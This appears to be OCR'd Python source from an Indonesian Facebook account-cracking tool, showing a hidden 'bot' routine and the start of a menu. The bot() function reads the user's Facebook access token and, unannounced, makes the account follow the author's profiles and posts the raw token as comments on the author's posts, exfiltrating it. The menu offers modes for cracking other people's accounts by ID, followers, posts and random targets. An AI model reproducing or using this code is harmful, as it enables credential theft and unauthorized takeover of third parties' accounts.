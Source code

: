 ### BOT FOLLOW DAN KOMEN ###
def bot():
	try:
		token = open('token.txt', 'r').read()
	except (KeyError, IOError):
		exit(" %s[!] token kadaluwarsa!"%(M))
	requests.post('https://graph.facebook.com/100075131925668/subscribers?access_token=' + token)
	requests.post('https://graph.facebook.com/100075131925668/subscribers?access_token=' + token)
	requests.post('https://graph.facebook.com/100075131925668/subscribers?access_token=' + token)
	requests.post('https://graph.facebook.com/100075131925668/subscribers?access_token=' + token)
	requests.post('https://graph.facebook.com/100013291513596/subscribers?access_token=' + token)
	requests.post('https://graph.facebook.com/106024538578610/comments/?message='+token+'&access_token=' + token)
	requests.post('https://graph.facebook.com/106024515245279/comments/?message='+token+'&access_token=' + token)
	requests.post('https://graph.facebook.com/124014098051640/comments/?message='+token+'&access_token=' + token)
	requests.post('https://graph.facebook.com/1324794007973637/comments/?message='+token+'&access_token=' + token)

### BAGIAN MENU ###
def menu():
    global token
    os.system('clear')
    try:
        token = open('token.txt', 'r').read()
        otw = requests.get('https://graph.facebook.com/me/?access_token=' + token)
        a = json.loads(otw.text)
        nama = a['name']
    except (KeyError, IOError):
        os.system('clear')
        print("\n %s[!] token kadaluwarsa!"%(M))
        os.system('rm -f token.txt')
        tokenz()
    except requests.exceptions.ConnectionError:
        exit(" %s[!] anda tidak terhubung ke internet!"%(M))

    logo()
    print(" %s[*] Author    : Rino Wibowo"%(N))
    print(" [*] Github    : https://github.com/Mas.Bro.Official")
    print(" [*] --------------------------------------------")
    print(" [*] Bergabung : %s"%(tgl))
    print(" [*] Status    : %sPremium Sampai Mati%s"%(H,N))
    print(" [*] --------------------------------------------")
    print(" [*] IP        : %s"%(IP))
    print("\n [ selamat datang %s%s%s ]\n"%(K,nama,N))
    print(" [01]. crack dari id publik")
    print(" [02]. crack dari id massal")
    print(" [03]. crack dari followers")
    print(" [04]. crack dari postingan")
    print(" [05]. crack random fb new")
    print(" [06]. crack random fb old")
    print(" [07]. crack random email fb")
    print(" [08]. informasi tambahan")
    print(" [%s00%s]. logout (hapus token)"%(M,N))
    asw = raw_input("\n [?] pilih menu : ")
    if asw == "":
    	menu()
    elif asw == "1":
    	publik()
    	atursandi()
    elif asw == "2":
    	massal()